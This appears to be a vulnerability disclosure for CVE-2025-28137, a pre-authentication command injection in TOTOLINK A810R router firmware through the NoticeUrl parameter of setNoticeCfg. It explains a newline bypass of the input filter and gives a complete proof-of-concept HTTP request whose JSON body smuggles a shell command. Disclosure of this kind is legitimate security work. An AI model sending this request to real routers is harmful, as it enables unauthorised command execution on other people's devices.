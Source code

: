 # RCE-TOTOLINK-V4.1.2cu.5137_B20200730

system.so-setNoticeCfg-NoticeUrl

## CVE-ID
CVE-2025-28137

## PRODUCT

TOTOLINK

## Vendor of Product

https://www.totolink.net/

## VERSION

A810R V4.1.2cu.5182_B20201026

## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html

## Vulnerability Type

RCE

## Description

The TOTOLINK A810R V4.1.2cu.5182_B20201026 were found to contain a pre-auth remote command execution vulnerability in the setNoticeCfg function through the NoticeUrl parameter.

The NoticeUrl is user-controllable. The GetDomainName function extracts the domain part from the URL and assigns it to v36. Subsequently, it enters the validity_check function to verify whether special characters are present. If special characters are included, it directly returns.

This function can be bypassed using newline characters, and `\n` can be used in JSON data to achieve this.
![image](https://github.com/user-attachments/assets/eebb14e8-ca78-434c-a130-ac0d1b0f097e)
If no special characters are included, the process continues and triggers the system function.
![image](https://github.com/user-attachments/assets/df5ea963-a1b6-4a2d-a1aa-8d990f88ba01)
![image](https://github.com/user-attachments/assets/aee8a1b8-b272-4d33-9a1b-c1c01790a2f5)
## POC
***
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 135

Origin: http://192.168.0.1

Connection: keep-alive

Referer: http://192.168.0.1/firewall/url_filtering.asp?timestamp=1740669963073

Cookie: SESSION_ID=2:1604139547:2



{"topicurl":"setting/setNoticeCfg","NoticeUrl":"bbb\nls>/test\nbb.com","WhiteListUrl1":"1111",

"IpFrom":"123.123.123.0","IpTo":"aaaa"}
***
![image](https://github.com/user-attachments/assets/a9764c05-cadb-4256-8c9b-701e6676b65e)



